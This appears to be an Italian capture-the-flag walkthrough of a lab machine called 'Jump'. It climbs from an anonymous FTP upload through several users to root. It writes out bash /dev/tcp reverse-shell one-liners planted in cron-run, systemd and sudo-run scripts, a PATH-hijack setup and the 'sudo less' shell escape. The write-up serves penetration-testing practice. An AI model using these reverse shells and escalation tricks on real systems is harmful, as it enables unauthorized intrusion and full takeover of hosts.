

# Jump

Obiettivo escalare da: `recon_user → dev_user → monitor_user → ops_user → root`

Partiamo come prima cosa nell’enumerare i servizi presenti nella macchina attraverso `nmap` 

```bash
kali@kali:~$ sudo nmap -sS -sV -sC -O -p- jump.ctf     
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-20 20:50 +0200
Nmap scan report for jump.ctf (10.130.161.238)
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 115      123          4096 Apr 30 06:00 incoming [NSE: writeable]
|_drwxr-xr-x    4 115      123          4096 Jun 09 08:22 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.142.32
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 60:d4:fe:91:72:39:a0:c7:cc:ed:eb:4d:9f:58:11:a2 (ECDSA)
|_  256 58:79:4a:53:68:50:5e:0a:97:fe:e1:e1:a4:71:d1:62 (ED25519)
```

| Servizio | Porta | Versione | Note  |
| --- | --- | --- | --- |
| FTP | 21 | vsftpd 3.0.5 |  |
| SSH | 22 | OpenSSH 9.6p1 |  |

FTP supporta il login *anonymous*

```bash
kali@kali:~/Desktop/CTF/jump$ ftp jump.ctf
Connected to jump.ctf.
220 (vsFTPd 3.0.5)
Name (jump.ctf:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32141|)
150 Here comes the directory listing.
drwxrwxrwx    2 115      123          4096 Apr 30 06:00 incoming
drwxr-xr-x    4 115      123          4096 Jun 09 08:22 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||59840|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             139 Feb 02  2026 README.txt
drwxr-xr-x    2 115      123          4096 Feb 01  2026 archive
drwxrwxrwx    2 115      123          4096 Feb 01  2026 uploads
226 Directory send OK.
ftp> mget *
mget README.txt [anpqy?]? 
229 Entering Extended Passive Mode (|||25292|)
150 Opening BINARY mode data connection for README.txt (139 bytes).
100% |**********************************************************|   139        1.16 MiB/s    00:00 ETA
226 Transfer complete.
139 bytes received in 00:00 (4.31 KiB/s)
mget archive [anpqy?]? 
229 Entering Extended Passive Mode (|||63389|)
550 Failed to open file.
mget uploads [anpqy?]? 
229 Entering Extended Passive Mode (|||34763|)
550 Failed to open file.
ftp> 
```

Analizzando il `README.md` vediamo scritto:

> 
> 
> 
> [ recon pipeline ]
> 
> All recon jobs must be placed in incoming/.
> Files are processed automatically on arrival.
> Invalid formats are ignored.
> 

Quindi sappiamo che c’è un **cronjob** che esegue periodicamente i file presenti in `incoming` 

Ho provato con un file `.sh` che apre una reverse shell:

```bash
kali@kali:~/Desktop/CTF/jump$ cat shell.sh              
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.142.32/4444 0>&1
```

Ottenendo con successo la **reverse shell.** e autenticandomi come `recon_user`.

```bash
recon_user@tryhackme-2404:~$ cat flag.txt
cat flag.txt
THM{5a3f1c92-****-****-****-************}
recon_user@tryhackme-2404:~$ 
```

 Ora dobbiamo diventare `dev_user`.

Procediamo con l’enumerazione dell’utente attuale

```bash
recon_user@tryhackme-2404:~$ hostname
tryhackme-2404
recon_user@tryhackme-2404:~$ uname -a
Linux tryhackme-2404 6.17.0-1013-aws #13~24.04.1-Ubuntu SMP Fri Apr 24 21:50:45 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux
recon_user@tryhackme-2404:~$ id
uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
recon_user@tryhackme-2404:~$ env
SHELL=/bin/bash
HISTSIZE=0
PWD=/home/recon_user
LOGNAME=recon_user
HOME=/home/recon_user
LANG=C.UTF-8
LS_COLORS=
LESSCLOSE=/usr/bin/lesspipe %s %s
TERM=xterm
LESSOPEN=| /usr/bin/lesspipe %s
SHLVL=3
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
HISTFILESIZE=0
_=/usr/bin/env
recon_user@tryhackme-2404:~$ history
```

Nulla di interessante… in realtà su `dev_user` la chiave è già accessibile quindi probabilmente non serve nemmeno entrare nel suo profilo (*privesc*)

```bash
recon_user@tryhackme-2404:~$ cat /home/dev_user/flag.txt 
THM{8d2b7a41-****-****-****-************}

```

Guardando `ps auxww`noto una riga interessante:

```bash
monitor+     602  0.0  0.3   7748  3456 ?        Ss   17:30   0:01 /bin/bash /usr/local/bin/healthcheck

```

Quindi come utente `monitor_user` viene eseguito questo script. Che se guardiamo come è implementato

```bash
recon_user@tryhackme-2404:~$ ls -al /usr/local/bin/healthcheck
-rwxr-xr-x 1 monitor_user monitor_user 98 Apr 29 10:35 /usr/local/bin/healthcheck
recon_user@tryhackme-2404:~$ cat /usr/local/bin/healthcheck
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
  ps aux | grep -v grep
  sleep 5
done

```

E’ protetto correttamente dallo scrittura, infatti solo l’owner può modificare, però alcuni comandi come `whoami, ps, grep` non usano il `PATH`completo, rendendoli vulnerabili.

```bash
recon_user@tryhackme-2404:~$ ls
flag.txt  grep  shell.sh
recon_user@tryhackme-2404:~$ cat grep 
#!/bin/bash

/bin/bash -i >& /dev/tcp/192.168.142.32/4445 0>&1
recon_user@tryhackme-2404:~$ echo $PATH
/home/recon_user:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
recon_user@tryhackme-2404:~$ pwd
/home/recon_user
recon_user@tryhackme-2404:~$ 

```

Inoltre possiamo notare trattarsi di un servizio systemd

```bash
recon_user@tryhackme-2404:/home/dev_user$ grep -R "healthcheck" /etc/cron* /etc/systemd/system 2>/dev/null
/etc/systemd/system/healthcheck.service:ExecStart=/usr/local/bin/healthcheck
/etc/systemd/system/timers.target.wants/healthcheck.timer:Description=Run healthcheck every minute
/etc/systemd/system/healthcheck.timer:Description=Run healthcheck every minute

```

e da qui vediamo anche un problema a quello che stavamo facendo noi.

```bash
recon_user@tryhackme-2404:/home/dev_user$ cat /etc/systemd/system/healthcheck.service
[Unit]
Description=System Health Check

[Service]
Type=simple
User=monitor_user
Environment=PATH=/opt/dev/bin:/usr/local/bin:/usr/bin
ExecStart=/usr/local/bin/healthcheck       
```

Il path è definito dal servizio systemd, il nostro grep dovrebbe quindi stare in uno di questi percorsi. 

```bash
recon_user@tryhackme-2404:/home/dev_user$ ls -ld /opt/dev/bin
drwxr-xr-x 2 dev_user dev_user 4096 Apr 26 18:19 /opt/dev/bin

```

Dove solo `dev_user` può accedere, quindi dobbiamo fare privesc verso `dev_user`

```bash
recon_user@tryhackme-2404:/home/dev_user$ find /opt -perm -a=x
/opt
/opt/app
/opt/app/data
/opt/app/deploy_helper.sh
/opt/dev
/opt/dev/backup.sh
/opt/dev/bin
/opt/recon
/opt/recon/process.sh
/opt/recon/scan_uploads.sh
recon_user@tryhackme-2404:/home/dev_user$ 

```

```bash
recon_user@tryhackme-2404:/home/dev_user$ ls -al /opt/dev/backup.sh
-rwxrwxr-x 1 dev_user dev_user 60 Jun  9 09:03 /opt/dev/backup.sh
recon_user@tryhackme-2404:/home/dev_user$ nano /opt/dev/backup.sh
recon_user@tryhackme-2404:/home/dev_user$ nano /opt/dev/backup.sh
recon_user@tryhackme-2404:/home/dev_user$ cat /opt/dev/backup.sh 
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.142.32/4445 0>&1
tar -czf /tmp/recon_backup.tgz /home/recon_user
recon_user@tryhackme-2404:/home/dev_user$ 

```

Abbiamo attivato la reverse shell verso `dev_user` ora possiamo riprendere il procedimento di prima (finalmente). semplicemente diamo tutti i permessi a `/opt/dev/bin/ps` quindi eseguiamo

```bash
dev_user@tryhackme-2404:/opt/dev/bin$ chmod 777 ps
```

E aspettiamo l’attivazione della reverse shell e otteniamo la flag

```bash
monitor_user@tryhackme-2404:/$ whoami
monitor_user
monitor_user@tryhackme-2404:/$ cat /home/monitor_user/flag.txt 
THM{c1e9a7b3-****-****-****-************}
```

```bash
monitor_user@tryhackme-2404:/$ sudo -l
Matching Defaults entries for monitor_user on tryhackme-2404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=LESS

User monitor_user may run the following commands on tryhackme-2404:
    (ops_user) NOPASSWD: /usr/local/bin/deploy.sh
monitor_user@tryhackme-2404:/$ 

```

Possiamo eseguire `deploy.sh` con i permessi di `ops_user`

```bash
monitor_user@tryhackme-2404:/$ cat /usr/local/bin/deploy.sh
#!/bin/bash
cd /opt/app 2>/dev/null
./deploy_helper.sh
monitor_user@tryhackme-2404:/$ cat /opt/app/deploy_helper.sh 
#!/bin/bash
echo "[+] Deploy helper running"
echo "[+] Syncing application files"
sleep 2
monitor_user@tryhackme-2404:/$ ls -al /usr/local/bin/deploy.sh
-rwxr-xr-x 1 ops_user ops_user 55 Feb  2  2026 /usr/local/bin/deploy.sh
monitor_user@tryhackme-2404:/$ ls -al /opt/app/deploy_helper.sh 
-rwxr-xr-x 1 monitor_user monitor_user 90 Feb  2  2026 /opt/app/deploy_helper.sh
monitor_user@tryhackme-2404:/$ 

```

Possiamo modificare il `deploy_helper.sh` inserendoci la reverse shell 

```bash
bash -i >& /dev/tcp/192.168.142.32/4447 0>&1
```

Ora siamo diventati `ops_user` !

```bash
ops_user@tryhackme-2404:/opt/app$ whoami
ops_user
ops_user@tryhackme-2404:/opt/app$ groups
ops_user
ops_user@tryhackme-2404:/opt/app$ 
ops_user@tryhackme-2404:~$ cat flag.txt 
THM{f7a2c9d1-****-****-****-************}

```

```bash
ops_user@tryhackme-2404:/opt/app$ sudo -l
Matching Defaults entries for ops_user on tryhackme-2404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=LESS

User ops_user may run the following commands on tryhackme-2404:
    (root) NOPASSWD: /usr/bin/less
ops_user@tryhackme-2404:/opt/app$ 

```

Possiamo, come letto da `https://gtfobins.org/gtfobins/less/#shell` diventare root attraverso:

```bash
sudo less /etc/hosts
!/bin/sh
```

infatti:



```bash
# cat /root/flag.txt
THM{2b8e6c4a-****-****-****-************}
```